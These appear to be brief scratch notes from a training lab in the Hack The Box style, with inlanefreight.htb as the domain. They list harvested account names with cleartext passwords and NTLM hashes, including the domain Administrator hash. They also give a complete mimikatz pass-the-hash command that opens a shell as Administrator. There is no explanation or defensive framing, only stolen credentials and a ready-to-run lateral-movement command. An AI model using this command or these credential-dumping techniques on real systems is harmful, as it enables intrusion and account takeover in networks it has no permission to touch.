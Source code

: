 AB920 - weasal

BR086 - Welcome1
netdb - D@ta_bAse_adm1n!
mssqlsvc -8c9555327d95f815987c0d81238c7660
Administrator bdaffbfe64f1fc646a3353be1c2c3c99


mimikatz.exe privilege::debug "sekurlsa::pth /user:Administrator /ntlm:bdaffbfe64f1fc646a3353be1c2c3c99 /domain:inlanefreight.htb /run:cmd.exe" exit

ct059 : charlie1